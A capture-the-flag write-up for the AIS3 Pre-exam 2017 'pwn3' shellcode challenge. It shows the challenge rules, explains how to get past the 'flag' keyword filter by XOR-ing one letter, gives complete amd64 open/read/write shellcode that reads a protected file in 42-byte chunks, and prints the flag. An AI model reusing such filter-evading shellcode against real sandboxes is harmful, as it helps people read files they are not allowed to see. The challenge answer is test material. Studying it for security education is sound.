 # AIS3 Pre-exam 2017: pwn3

![pwn3](pwn3.png)

## Solution
```
=======================================
          shellcode challenge
=======================================
Rule :
 1. Only allow open/read/write/exit
 2. Filter "flag" in your shellcode
 3. arg3 of read < 42 when running
    shellcode
=======================================
Give me your shellcode (max = 87 bytes)
```
A shellcode challenge with the above rules and in amd64.
The flag is more than 42 chars, but we can only read 42 chars at once.
We can perform read (xor rax, rax; syscall) again to read the next 42 chars, until we read the whole flag.
Also "flag" is filtered, we can send the word "Flag" and then xor the first letter "F" with 0x20 to get the letter "f", so we can bypass this.

Here is the shellcode:
```
    jmp _file

_orw:
	; xor "F" with 0x20
    pop rdi
    xor BYTE PTR [rdi + 11], 32
	
_open:
    xor rax, rax
    add al, 2
    xor rsi, rsi
    syscall

_read:
	; read the first 42 bytes
    mov rsi, rsp
    mov rdi, rax
    xor rdx, rdx
    add rdx, 42
    xor rax, rax
    syscall

	; only perform this to read the next 42 bytes
    xor rax, rax
    syscall

	; only perform this to read the last 42 bytes
    xor rax, rax
    syscall

_write:
    xor rdi, rdi
    inc rdi
    xor rax, rax
    add al, 1
    syscall

_exit:
    xor rax, rax
    add al, 60
    syscall


_file:
    call _orw
    .ascii "/home/pwn3/Flag"
    .byte 0
```

Flag:
>ais3{r34d_0p3n_r34d_Writ3_c4ptur3_th3_fl4g_sh3llc0ding_1s_s0_fUn_y0ur_4r3_4_g0od_h4ck3r_h4h4}
